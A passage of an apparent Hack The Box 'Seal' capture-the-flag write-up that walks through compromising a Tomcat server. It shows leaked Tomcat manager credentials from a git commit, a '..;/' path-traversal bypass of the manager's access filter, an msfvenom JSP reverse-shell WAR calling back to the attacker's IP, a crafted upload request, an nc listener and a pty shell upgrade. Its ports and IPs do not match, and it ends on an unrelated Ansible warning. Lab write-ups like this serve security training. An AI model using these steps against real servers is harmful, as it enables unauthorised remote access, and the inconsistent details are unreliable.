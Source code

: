 ```echo 10.10.10.250 seal.htb >> /etc/hosts```
![pass](/assets/Seal/pass.png)

When trying to update the tomcat/tomcat-users.xmlfile, I found the tomcat account password

```
http://10.10.10.250:8080/root/seal_market/commit/971f3aa3f0a0cc8aac12fd696d9631ca540f44c7
username = tomcat
password = 42MrHBf*z8{Z%
```

![check](/assets/Seal/check.png)

When trying to view robots.txt, it prompts 404, but from this 404 status page, we can know that the server uses tomcat, and we have the tomcat account and password in our hands, then let's log in directly

```https://seal.htb/manager/status```

Use tomcat's default address to log in directly, and then enter the tomcat management page

### Exploit
```https://seal.htb/manager/status/..;/html```

We directly use msfvenom to generate a war horse, and then upload and use it

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.22 LPORT=1337 -f war -o shell.war```

When uploading, it prompts 403, which is a bit confusing.

![not](/assets/Seal/not.png)

After some try it is found that this is a whitelist filter, we need to capture the packet and then bypass it.

```
not bypass
POST /manager/html/upload;jsessionid=55F7E6377E4EE40C4466AB9F3403C5C9?org.apache.catalina.filters.CSRF_NONCE=229A49D013A85C24C1703530CB2440AD HTTP/1.1

bypass
POST /manager/status/..;/html/upload;jsessionid=55F7E6377E4EE40C4466AB9F3403C5C9?org.apache.catalina.filters.CSRF_NONCE=229A49D013A85C24C1703530CB2440AD HTTP/1.1
```

![loginss](/assets/Seal/loginss.png)

As we can see, the shell is uploaded successfully, and we use nc to monitor a port locally

```nc -nvlp 4444```

Then visit the shell page

```https://seal.htb/shell/```

Use python3 to get a stable shell link

```python3 -c 'import pty;pty.spawn("/bin/bash");'```

Successfully get a shell

```
spy0x7@root:~/ctfs/htb/Seal▶
→ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.250] 32984

[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not match 'all'